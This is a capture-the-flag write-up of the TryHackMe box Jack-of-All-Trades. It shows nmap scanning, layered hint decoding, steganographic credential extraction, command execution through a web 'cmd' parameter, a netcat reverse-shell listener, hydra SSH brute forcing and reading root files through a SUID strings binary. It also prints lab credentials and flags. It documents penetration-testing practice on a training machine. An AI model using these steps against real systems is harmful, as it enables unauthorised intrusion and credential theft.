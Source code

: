 ```yaml
---
title: TryHackMe - Jack-of-All-Trades Writeup
description: My writeup on Jack-of-All-Trades box.
categories:
 - tryhackme
tags: tryhackme
---
```


A really stupid box, but anyway let's pwn it.

You can find the machine there > [Jack-of-All-Trades](https://tryhackme.com/room/jackofalltrades){:target="_blank"}

As always let's start with a nmap scan.

```bash
$ ip=10.10.200.210 
$ nmap -sC -sV -oN nmap.txt $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-29 22:51 EEST
Nmap scan report for 10.10.200.210 (10.10.200.210)
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

What a trick :P , `22=http` `80=ssh`

Let's visit the webpage. If you get an error `This address is restricted` seems like firefox blocks this port follow this guide & u will be okey [guide](https://blog.christoffer.online/2012-02-20-how-to-remove-firefoxs-this-address-is-restricted/)

If we check the page source code we can see these messages :

```
<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
			<!-- UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
```

We have a path and a base64 string, let's decode the string.

```bash
$ echo UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== | base64 --decode
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

We have a password `u?WtKSraq` cool, now let's visit the webpage `/recovery.php`

A login function, hm let's check the source code. Again a encoded string.

```
<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```

Seems like base32, let's decode it.

```bash
$ echo GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ= | base32 --decode
45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246
```

Gives us a hex string. Let's decode it.

```bash
$ echo 45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246 | xxd -r -p
Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr! V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F
```

Seems like ROT13, let's decode it.

```bash
$ echo "Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr! V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F" | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

Gives us a hint that we need to do stego, so i'll not waste more time i found the creds under this image `/assets/header.jpg`.

```bash
$ wget -q http://10.10.200.210:22/assets/header.jpg
$ steghide extract -sf header.jpg -p u?WtKSraq
wrote extracted data to "cms.creds".
$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

So now we can login into `/recovery.php`

After we login in, we can see this message `GET me a 'cmd' and I'll run it for you Future-Jack.` damn easy.

```
http://10.10.200.210:22/nnxhweOV/index.php?cmd=whoami

www-data www-data
```

Let's use burp now to spawn a shell.

Send the request to repeater.

![](https://i.ibb.co/51ccwV6/1.png)

Now use this reverse shell and URL encode because the URL contains disallowed chars.

![](https://i.ibb.co/vQW7JVP/2.png)

And we have shell!

```bash
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ 
```

Now privesc to user is really simple we can see this under `/home` directory.

```bash
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ cd /home   
cd /home
www-data@jack-of-all-trades:/home$ ls -la            
ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 29 19:45 .
drwxr-xr-x 23 root root 4096 Feb 29 19:30 ..
drwxr-x---  3 jack jack 4096 May 29 20:45 jack
-rw-r--r--  1 root root  408 Feb 29 19:44 jacks_password_list
www-data@jack-of-all-trades:/home$ cat jacks_password_list
cat jacks_password_list
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
```

Let's ssh brute force.

```bash
$ hydra -l jack -P wordlist.txt 10.10.200.210 ssh -s 80
[DATA] attacking ssh://10.10.200.210:80/
[80][ssh] host: 10.10.200.210   login: jack   password: ITMJpGGIqg1jn?>@
```

We're in!

```bash
$ ssh jack@10.10.200.210 -p 80
jack@10.10.200.210's password: 
jack@jack-of-all-trades:~$ ls -la
total 312
drwxr-x--- 3 jack jack   4096 May 29 20:45 .
drwxr-xr-x 3 root root   4096 Feb 29 19:45 ..
-rw-r--r-- 1 jack jack      0 May 29 20:45 @
lrwxrwxrwx 1 root root      9 Feb 29 19:34 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack    220 Feb 29 19:31 .bash_logout
-rw-r--r-- 1 jack jack   3515 Feb 29 19:31 .bashrc
drwx------ 2 jack jack   4096 Feb 29 20:34 .gnupg
-rw-r--r-- 1 jack jack    675 Feb 29 19:31 .profile
-rwxr-x--- 1 jack jack 293302 Feb 28 19:38 user.jpg
jack@jack-of-all-trades:~$ 
```

For user flag, just download the image and display it, u will get this flag : `securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}`

And we can read root's flag using `strings` because it's SUID binary.

```bash
jack@jack-of-all-trades:~$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 464904 Mar 22  2015 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 294512 Feb  9  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10248 Apr 15  2015 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 44464 Nov 20  2014 /usr/bin/chsh
-rwsr-sr-x 1 daemon daemon 55424 Sep 30  2014 /usr/bin/at
-rwsr-xr-x 1 root root 53616 Nov 20  2014 /usr/bin/chfn
-rwsr-xr-x 1 root root 39912 Nov 20  2014 /usr/bin/newgrp
-rwsr-x--- 1 root dev 27536 Feb 25  2015 /usr/bin/strings
-rwsr-xr-x 1 root root 149568 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 54192 Nov 20  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 75376 Nov 20  2014 /usr/bin/gpasswd
-rwsr-sr-x 1 root mail 89248 Feb 11  2015 /usr/bin/procmail
-rwsr-xr-x 1 root root 3124160 Feb 17  2015 /usr/sbin/exim4
-rwsr-xr-x 1 root root 40000 Mar 29  2015 /bin/mount
-rwsr-xr-x 1 root root 27416 Mar 29  2015 /bin/umount
-rwsr-xr-x 1 root root 40168 Nov 20  2014 /bin/su
jack@jack-of-all-trades:~$ strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
jack@jack-of-all-trades:~$ 
```

what a meme, see you!
